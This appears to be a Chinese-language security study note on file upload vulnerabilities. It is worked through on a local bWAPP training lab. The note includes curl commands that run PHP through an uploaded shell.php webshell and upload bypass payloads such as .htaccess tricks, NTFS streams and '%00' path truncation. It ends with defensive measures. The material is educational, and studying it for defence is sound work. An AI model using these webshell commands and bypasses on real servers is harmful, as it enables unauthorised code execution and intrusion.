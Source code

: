 # 服务端安全

## 文件上传漏洞

获取 webshell

```sh
# docker images: registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
$ docker run -d -p 0.0.0.0:80:80 registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
$ docker container list -a
CONTAINER ID        IMAGE                                           COMMAND                  CREATED             STATUS                      PORTS                          NAMES
50b30e9f09b8        registry.cn-shanghai.aliyuncs.com/yhskc/bwapp   "/run.sh"                2 minutes ago       Up 2 minutes                0.0.0.0:80->80/tcp, 3306/tcp   affectionate_wing
# Step1: 打开 127.0.0.1/install.php 安装 bWAPP
# Step2: 注册用户 alwynzhou / sfgU4qcj8C9V5PR / tokentest
# Step3: 选择 Other Bugs -> Unrestricted File Upload，上传攻击性文件 shell.php

# 获取当前用户名
$ curl -d "hacker=echo get_current_user();" http://127.0.0.1/images/shell.php
www-data%
# 获取当前执行路径
$ curl -d "hacker=echo getcwd();" http://127.0.0.1/images/shell.php
/app/images%
```

```sh
# 中级难度 shell.php3
root@50b30e9f09b8:/# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      436/apache2
root@50b30e9f09b8:/# cd /etc/apache2/
root@50b30e9f09b8:/etc/apache2# vim apache2.conf
root@50b30e9f09b8:/etc/apache2# cd mods-enabled/
root@50b30e9f09b8:/etc/apache2/mods-enabled# cat php5.conf
<FilesMatch ".+\.ph(p[345]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

+ `.htaccess` 绕过
  - 分布式配置文件
+ 大小写绕过etc
+ Windows文件流特性饶拓
  - echo 111 > test.txt:111.txt (NTFS)
+ `%00`截断绕过
  - 路径截断 save_path=../upload/a.php%00.jpg

**绕过内容检测**

+ 聚合图片文件头和代码文本文件

**漏洞链**

+ 远程/本地文件包含 （不可执行的文件变成可执行的文件）

**测试方式**
+ fuzz testing 模糊测试
+ penetration testing 渗透测试

**防御措施**
1. 文件类型检测，白名单>黑名单
2. 使用安全的函数进行编程
3. 熟悉业务部署环境 OS、Web Server

